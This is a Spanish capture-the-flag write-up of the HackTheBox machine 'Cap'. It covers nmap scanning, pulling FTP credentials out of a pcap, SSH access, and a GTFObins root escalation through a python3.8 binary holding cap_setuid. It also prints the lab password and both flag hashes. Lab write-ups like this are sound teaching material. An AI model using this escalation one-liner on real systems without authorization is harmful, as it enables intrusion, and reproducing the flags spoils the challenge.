


En este tutorial, te mostraré cómo logré obtener el control total sobre la máquina "__Cap__" en HackTheBox. Esta máquina profundiza el __análisis del trafico red y técnicas de escalada de privilegios__.

## ⚙️ Herramientas Utilizadas
- __Nmap__
- __Wireshark__
- __GTFObins__ : _¿Que es?_ → Es un proyecto de seguridad que enumera binarios comunes de Unix _(bash, find, vim)_ que puede ser explotados para escalar privilegios, evadir la detección o realizar otras acciones maliciosas.
    -  Proporciona una base de datos de vulnerabilidades y técnicas que los atacantes podrían usar para obtener acceso a nivel de raíz o para realizar otras operaciones no autorizadas en un sistema Linux, como crear puertas traseras o persistir en el sistema _(root)_, siendo esto necesario para esta máquina. 

## Paso 1: Escaneo con Nmap
Primero se realizó un escaneo para identificar los servicios que se ejecutan en la máquina de destino.
```bash
┌──(secbytiago㉿tiaago)-[~/Descargas]
└─$ nmap -sC --open  10.10.10.245
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-21 17:47 -03
Nmap scan report for 10.10.10.245
Host is up (0.14s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http
|_http-title: Security Dashboard

Nmap done: 1 IP address (1 host up) scanned in 21.54 seconds
```
Los resultados del escaneo revelaron los siguientes puertos abiertos:
- __21/tcp → ftp__
- __22/tcp → ssh__
- __80/tcp → http__

## Paso 2: Exploración HTTP
Dado que esta abierto el puerto 80, esto quiere decir que se encontró una interfaz web.

Esta interfaz permite descargar un archivo `.pcap` siendo este un archivo de captura de paquetes. Tras análizar un poco, se obtuvo que al acceder al endpoint `/data/0` permitiendo descargar un archivo de captura de paquetes con datos originales. Logrando ingresar en el siguiente link para descargar el archivo.
- http://10.10.10.245/datos/0

## Paso 3: Análisis del Archivo `.pcap`
Al abrir el archivo en __Wireshark__ (herramienta de trafico de red, si quieres saber mas sobre esta herramienta entra al siguiente [enlace](https://santiagom.vercel.app/2025-10-16-post/tools_cyber/)). Observando el archivo detalladamente, se encontró lo siguiente:

Tal como se muestra en la imagen anterior, se logró identificar las credenciales de inicio de sesión del usuario __nathan__. En cuanto a la contraseña, esta se encuentra dentro del archivo `.pcap` nombrada como _"RequestL PASS"_, logrando obtener lo siguiente:

- _Nombre de usuario_: __nathan__
- _Contraseña_: __Buck3tH4TF0RM3!__

Una vez obtenida las credenciales nos encontramos con el siguiente cuestionamiento: _¿Donde las utilizo?_. Por lo tanto, se realizo la siguiente busqueda nmap con los siguientes parametros:
- __-sC__ → Ejecuta el conjunto de script NSE por defecto. Son pequeños checks (vulnerabilidades conocidas, banners, info extra) que hacen peticiones adicionales a los puertos abiertos.
- __-sV__ → Detección de versiones: intenta identificar versión de servicio / software que responde en cada puerto (ej.: OpenSSH 8.2p1, nginx 1.22, etc.).
- __-p21,22,80__ → Especifica los puertos a escanear siendo TCP 21 (FTP), 22 (SSH) y 80 (HTTP).
- __-vvv__ → Nivel de verbosidad muy alto (más información en pantalla mientras corre es comando). No altera al escaneo, sólo la información mostrada.
- __-oN__ → Redirige la salida a un archivo en formato "normal" (legible por humanos).

```bash
┌──(secbytiago㉿tiaago)-[~/Descargas]
└─$ sudo nmap -sCV -p21,22,80 -vvv 10.10.10.245 -oN nmap 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-21 18:07 -03
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
Initiating Ping Scan at 18:07
Scanning 10.10.10.245 [4 ports]
Completed Ping Scan at 18:07, 0.85s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:07
Completed Parallel DNS resolution of 1 host. at 18:07, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 18:07
Scanning 10.10.10.245 [3 ports]
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
Completed SYN Stealth Scan at 18:07, 0.15s elapsed (3 total ports)
Initiating Service scan at 18:07
Scanning 3 services on 10.10.10.245
Completed Service scan at 18:07, 6.30s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.245.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 4.22s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 4.49s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
Nmap scan report for 10.10.10.245
Host is up, received echo-reply ttl 63 (0.60s latency).
Scanned at 2025-10-21 18:07:05 -03 for 16s

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2vrva1a+HtV5SnbxxtZSs+D8/EXPL2wiqOUG2ngq9zaPlF6cuLX3P2QYvGfh5bcAIVjIqNUmmc1eSHVxtbmNEQjyJdjZOP4i2IfX/RZUA18dWTfEWlNaoVDGBsc8zunvFk3nkyaynnXmlH7n3BLb1nRNyxtouW+q7VzhA6YK3ziOD6tXT7MMnDU7CfG1PfMqdU297OVP35BODg1gZawthjxMi5i5R1g3nyODudFoWaHu9GZ3D/dSQbMAxsly98L1Wr6YJ6M6xfqDurgOAl9i6TZ4zx93c/h1MO+mKH7EobPR/ZWrFGLeVFZbB6jYEflCty8W8Dwr7HOdF1gULr+Mj+BcykLlzPoEhD7YqjRBm8SHdicPP1huq+/3tN7Q/IOf68NNJDdeq6QuGKh1CKqloT/+QZzZcJRubxULUg8YLGsYUHd1umySv4cHHEXRl7vcZJst78eBqnYUtN3MweQr4ga1kQP4YZK5qUQCTPPmrKMa9NPh1sjHSdS8IwiH12V0=
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqG/RCH23t5Pr9sw6dCqvySMHEjxwCfMzBDypoNIMIa8iKYAe84s/X7vDbA9T/vtGDYzS+fw8I5MAGpX8deeKI=
|   256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPbLTiQl+6W0EOi8vS+sByUiZdBsuz0v/7zITtSuaTFH
80/tcp open  http    syn-ack ttl 63 Gunicorn
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.32 seconds
           Raw packets sent: 7 (284B) | Rcvd: 4 (160B)
```
Tal como se aprecia en el escaneo anterior, el puerto 22 SSH cuenta con un sistema operativo Ubunto, por lo tanto probamos a acceder a la máquina por SSH usando las credenciales accediendo sin problemas. Una vez dentro haremos un listado de archivos dandonos cuenta que se encuentra:
```bash
nathan@cap:~$ ls
user.txt
```
Se le realizó un `cat a user` y logramos encontrar la primera flag!
```bash
nathan@cap:~$ cat user.txt 
82d19e2cd3b6d570a5cb8af9f7b869f3
```
### Flag 1 User
→ __82d19e2cd3b6d570a5cb8af9f7b869f3__

## Paso 4: Escalamiento de Privilegios
Una vez accedido a la terminal y encontrado la flag de user.txt, necesitamos intentar escalar privilegios para tener acceso al usuario `root` para obtener la siguiente flag.

Para ello, se utilizo `getcap` para buscar binarios con privilegios elevados.
```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
Lo que se puede rescatar del comando ejecutado es : __/usr/bin/python3.8 = cap_setuid__. Indicando que `python3.8` posee capacidad de cambiar el ID __(por el cap_setuid)__, lo que se podria utilizar para obtener privilegios `root`.

Una vez descubierta la vulnerabilidad, se utilizo __GTFObins__ ingresando a su [sitio web GTFObins](https://gtfobins.github.io/gtfobins/python/?source=post_page-----eb9c97f2259c---------------------------------------#capabilities) logrando encontrar un comando apropiado para escalar privilegios. En la página web aparece como "_Capabilities_" __(Si el binario tiene la CAP_SETUID capacidad de Linux establecida o es ejecutado por otro binario con la capacidad establecida, se puede utilizar como una puerta trasera para mantener el acceso privilegiado manipulando su propio UID de proceso.)__.
```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~#
```
Al utilizar el comando apropiado, nos proporciono el acceso como usuario `root` logrando escalar de privilegio exitosamente. Ahora solo basta encontrar el archivo `root.txt` para finalizar la máquina exitosamente.
```bash
root@cap:~# cd /root/
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt
5083a12fb489b7cd6b15d74aae0e4e0f
```
### Flag 2 Root
→ __5083a12fb489b7cd6b15d74aae0e4e0f__

## Resumen
En este writeup describimos el proceso completo para comprometer la máquina "Cap" de HackTheBox. Partimos de un escaneo inicial con Nmap que reveló servicios en los puertos 21 (FTP), 22 (SSH) y 80 (HTTP). La interfaz web alojada en el puerto 80 permitía descargar una captura de tráfico (.pcap) que, al analizarse con Wireshark, filtró credenciales en claro: usuario __nathan__ con la contraseña __Buck3tH4TF0RM3!__. Con esas credenciales accedimos por SSH y obtuvimos la primera __flag de usuario__.

Para escalar privilegios buscamos binarios con capacidades especiales y encontramos que /usr/bin/python3.8 tenía CAP_SETUID. Usando una técnica documentada en GTFObins ejecutamos Python para elevar el UID a 0 y abrir una shell root:
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
Desde la sesión root recuperamos la __flag final__.

__Flags__:
- __user.txt__: 82d19e2cd3b6d570a5cb8af9f7b869f3
- __root.txt__: 5083a12fb489b7cd6b15d74aae0e4e0f